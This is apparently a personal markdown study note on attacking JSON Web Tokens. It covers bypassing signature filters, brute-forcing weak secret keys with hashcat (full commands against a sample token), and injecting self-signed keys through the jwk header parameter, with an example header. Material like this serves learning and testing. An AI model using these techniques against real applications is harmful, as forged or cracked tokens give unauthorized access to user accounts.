 Due to the obvious dangers of this, servers usually reject tokens with no signature. 

We can sometimes bypass these filters using classic obfuscation techniques, such as mixed capitalization and unexpected encodings.


## Brute-forcing secret keys
When implementing JWT applications, developers sometimes make mistakes like forgetting to change default or placeholder secrets.

So basically it could be possible to bruteforce secret keys using wordlists.

### Brute-forcing secret keys using hashcat
The idea is to use hashcat.

First of all we can see directly if a string is a JWT using this command
```BASH
hashcat -a 0 "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c" path_wordlist
```
- <mark style="background: #BBFABBA6;">remember to escape bash chars like $ using \$</mark>

From this we can find the type of the encoded string in output:
```BASH
16500 | JWT (JSON Web Token) | Network Protocol
```


So then we can run:
```BASH 
hashcat -a 0 -m 16500 "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c" path_wordlist
```



## JWT header parameter injections
The following ones are of particular interest to attackers.

- ==jwk (JSON Web Key) - Provides an embedded JSON object representing the key.==
- ==jku (JSON Web Key Set URL) - Provides a URL from which servers can fetch a set of keys containing the correct key.==
- kid (Key ID) - Provides an ID that servers can use to identify the correct key in cases where there are multiple keys to choose from. Depending on the format of the key, this may have a matching kid parameter.



### Injecting self-signed JWTs via the jwk parameter
#### JWK
<mark style="background: #BBFABBA6;">A JWK (JSON Web Key) is a standardized format for representing keys as a JSON object.</mark>
```JSON
{ 
	"kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG", 
	"typ": "JWT", 
	"alg": "RS256", 
	"jwk": {"kty": "RSA", "e": "AQAB", "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG", "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9m" } 
}
```
